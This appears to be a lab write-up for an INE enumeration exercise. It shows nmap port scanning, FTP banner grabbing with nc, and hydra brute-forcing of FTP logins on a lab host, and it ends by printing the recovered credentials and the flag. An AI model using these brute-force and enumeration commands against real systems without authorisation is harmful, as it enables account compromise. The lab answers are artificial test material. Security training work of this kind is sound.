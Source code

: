 # FTP Login Brute Force & Banner Grabbing

## Challenge Title
Discover Hidden FTP Service, Extract Users from Banner, Brute Force Credentials, and Retrieve the Flag.

## Category
Assessment Methodologies – Enumeration

## Lab Link
[INE Lab](https://my.ine.com/CyberSecurity/courses/d707f31c-913d-477e-951e-74503392e9ae/assessment-methodologies-enumeration/lab/24c50c27-185b-4541-a88f-e2a12811053e)

---

## Objective

Identify hidden services using Nmap, enumerate users from FTP banner, brute force FTP credentials, and extract flag3 from the user directory.

---

## Tools Used

- `nmap` – for service enumeration
- `nc` – for FTP banner grabbing
- `hydra` – for brute-force attacks
- `ftp` – to retrieve flag manually

---

## Step-by-Step Walkthrough

### 🔹 Step 1: Nmap Scan

Initial scan shows SMB and SSH.

```bash
nmap -sV target.ine.local
```
To discover all services, use full port scan:

```bash
nmap -p- -sV target.ine.local
```
We find an FTP service on port `5554`.
### 🔹 Step 2: Grab FTP Banner

```bash
nc target.ine.local 5554
```
The banner reveals three potential usernames: ashley, alice, amanda.

### 🔹 Step 3: Create User Wordlist

```bash
nano users.txt
```
```text
alice
ashley
amanda
```

### 🔹 Step 4: Brute Force FTP Credentials
Using Hydra:
```bash
hydra -L users.txt -P /root/Desktop/wordlists/unix_passwords.txt ftp://target.ine.local:5554
```
Success! Found valid credentials:
- Username: alice
- Password: pretty

### 🔹 Step 5: Access FTP and Download Flag
```bash
ftp target.ine.local 5554
```
Login with `alice:pretty`
Use `ls` to list and `get flag3.txt` to download.

### 🔹 Step 6: View Retrieved Flag
```bash
cat flag3.txt
```
Output:
```bash
FLAG3{232c4bdafc8844129123cfaeaa5c4e68}
```

## Conclusion
Through enumeration, service discovery, and brute-forcing techniques, we were able to extract sensitive credentials and retrieve the flag from a hidden FTP service.

## Files Included
- `users.txt` – Created for brute-forcing
- `1.png` → `8.png` – Screenshots documenting each step
